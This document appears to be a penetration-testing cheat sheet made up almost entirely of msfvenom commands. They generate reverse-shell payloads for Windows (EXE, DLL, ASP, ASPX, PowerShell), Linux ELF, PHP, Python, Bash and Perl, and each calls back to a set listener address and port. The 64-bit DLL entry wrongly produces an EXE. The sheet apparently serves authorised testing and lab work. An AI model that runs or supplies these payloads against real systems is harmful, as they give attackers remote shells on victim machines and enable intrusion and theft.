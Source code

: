 
### Generating msfvenom payloads

#### EXE
64bit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe  
```
32bit
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f exe -o shell-x86.exe
```
#### DLL
64bit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f exe -o shell.exe  
```
32bit 
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f dll -o shell-x86.dll
```


### ELF
32-BIT
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f elf -o shell-x86.elf
```
64 BIT
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f elf -o shell-x64.elf
```


### PHP
```
msfvenom -p php/reverse_php LHOST=192.168.45.175 LPORT=4444 -f raw -o shell.php
```

### ASP Classic (IIS/Windows)

```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f asp -o shell.asp
```
#### ASPX (.NET/Windows)

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f aspx -o shell.aspx
```

#### PowerShell Script (.ps1)

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f ps1 -o shell.ps1
```
#### PowerShell One-liner Command

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.175 LPORT=4444 -f psh -o shell-cmd.txt
```

#### Python Reverse Shell

```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.45.175 LPORT=4444 -f raw -o shell.py
```
#### Bash Reverse Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.45.175 LPORT=4444 -f raw -o shell.sh
```
#### Perl Reverse Shell

```
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.45.175 LPORT=4444 -f raw -o shell.pl
```
